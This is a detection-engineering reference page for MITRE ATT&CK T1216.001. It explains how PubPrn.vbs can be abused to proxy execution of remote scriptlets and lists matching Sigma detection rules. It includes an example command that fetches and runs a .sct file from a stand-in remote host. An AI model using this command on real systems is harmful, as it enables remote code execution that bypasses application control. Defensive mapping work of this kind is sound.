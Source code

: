 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Script Proxy Execution: Pubprn 

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


## Executor
command_prompt

# Sigma Rule
 - create_stream_hash_creation_internet_file.yml (id: 573df571-a223-43bc-846e-3f98da481eca)

 - create_stream_hash_ads_executable.yml (id: b69888d4-380c-45ce-9cf9-d9ce46e67821)

 - proc_creation_win_lolbin_pubprn.yml (id: 1fb76ab8-fa60-4b01-bddd-71e89bf555da)

 - proc_creation_win_wscript_cscript_script_exec.yml (id: 1e33157c-53b1-41ad-bbcc-780b80b58288)



[back](../index.md)
